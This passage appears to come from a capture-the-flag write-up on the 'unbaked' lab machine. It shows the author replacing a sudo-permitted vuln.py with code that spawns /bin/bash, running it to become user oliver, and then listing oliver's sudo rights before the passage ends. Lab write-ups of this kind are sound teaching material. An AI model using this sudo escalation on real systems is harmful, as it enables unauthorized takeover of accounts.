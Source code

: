 ```bash
ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py
ramsey@unbaked:~$
```
{: .nolineno}
{: .nolineno}

And this `vuln.py` have these permissions so I will be replacing it with my vuln.py file like this →

```bash
ramsey@unbaked:~$ cd /tmp
ramsey@unbaked:/tmp$ nano vuln.py
ramsey@unbaked:/tmp$ chmod +x vuln.py
ramsey@unbaked:/tmp$ cat vuln.py
import os
os.system("/bin/bash") 
ramsey@unbaked:/tmp$ mkdir file
ramsey@unbaked:/tmp$ cd ~
ramsey@unbaked:~$ ls
payload.png  user.txt  vuln.py
ramsey@unbaked:~$ mv vuln.py /tmp/file/
ramsey@unbaked:~$ mv /tmp/vuln.py .
ramsey@unbaked:~$ ls -al
total 44
drwxr-xr-x 5 ramsey ramsey 4096 Nov  1 00:35 .
drwxr-xr-x 4 root   root   4096 Oct  3  2020 ..
-rw------- 1 root   root      1 Oct  5  2020 .bash_history
-rw-r--r-- 1 ramsey ramsey 3771 Oct  3  2020 .bashrc
drwx------ 3 ramsey ramsey 4096 Oct  3  2020 .cache
drwx------ 4 ramsey ramsey 4096 Oct  3  2020 .local
drwxrwxr-x 2 ramsey ramsey 4096 Oct  3  2020 .nano
-rwxrw-r-- 1 ramsey ramsey 1645 Oct  3  2020 payload.png
-rw-r--r-- 1 ramsey ramsey  655 Oct  3  2020 .profile
-rw-r--r-- 1 root   root     38 Oct  6  2020 user.txt
-rwxrwxr-x 1 ramsey ramsey 1649 Nov  1 00:34 vuln.py
ramsey@unbaked:~$
```
{: .nolineno}
{: .nolineno}

Now lets execute for oliver user →

```bash
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
oliver@unbaked:~$ whoami
oliver
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
oliver@unbaked:~$
```
{: .nolineno}
{: .nolineno}